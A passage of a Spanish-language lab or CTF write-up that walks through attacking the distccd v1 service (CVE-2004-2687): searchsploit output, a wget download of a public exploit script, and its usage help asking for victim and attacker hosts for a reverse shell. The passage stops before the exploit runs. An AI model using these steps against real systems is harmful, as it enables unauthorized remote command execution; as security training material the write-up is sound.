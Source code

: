 Observamos el puerto 3632/TCP abierto el cual está asociado al servicio *distccd v1*; por lo que primero validaremos la existencia de algún exploit público:

```bash
❯ searchsploit distcc
------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                   |  Path
------------------------------------------------------------------------------------------------- ---------------------------------
DistCC Daemon - Command Execution (Metasploit)                                                   | multiple/remote/9915.rb
------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Vemos que existe un módulo de metasploit, por lo que ahora trataremos de buscar algun recurso en público:

[**CVE-2004-2687.py**](https://github.com/k4miyo/CVE-2004-2687)

Nos descargamos el archivo a nuestra máquina, lo analizamos para ver si es necesario cambiar datos (para este caso no aplica) y procedemos a ejecutar programa.

```bash
❯ wget https://raw.githubusercontent.com/k4miyo/CVE-2004-2687/k4miyo/CVE-2004-2687.py
--2021-08-27 20:49:39--  https://raw.githubusercontent.com/k4miyo/CVE-2004-2687/k4miyo/CVE-2004-2687.py
Resolviendo raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Conectando con raw.githubusercontent.com (raw.githubusercontent.com)[185.199.108.133]:443... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 4052 (4.0K) [text/plain]
Grabando a: «CVE-2004-2687.py»

CVE-2004-2687.py                 100%[=========================================================>]   3.96K  --.-KB/s    en 0s      

2021-08-27 20:49:40 (18.7 MB/s) - «CVE-2004-2687.py» guardado [4052/4052]
```

Al ejecutar el programa de python, nos solicita que ingresemos valores :

```bash
❯ python CVE-2004-2687.py -h
usage: CVE-2004-2687.py [-h] --rhost RHOST [--rport RPORT] --lhost LHOST [--lport LPORT]

DistCC Daemon Command Execution

optional arguments:
  -h, --help     show this help message and exit
  --rhost RHOST  Remote host ip (Victim)
  --rport RPORT  Remote port (default: 3632)
  --lhost LHOST  Local host ip (Attacker)
  --lport LPORT  Local port (default: 443)
```
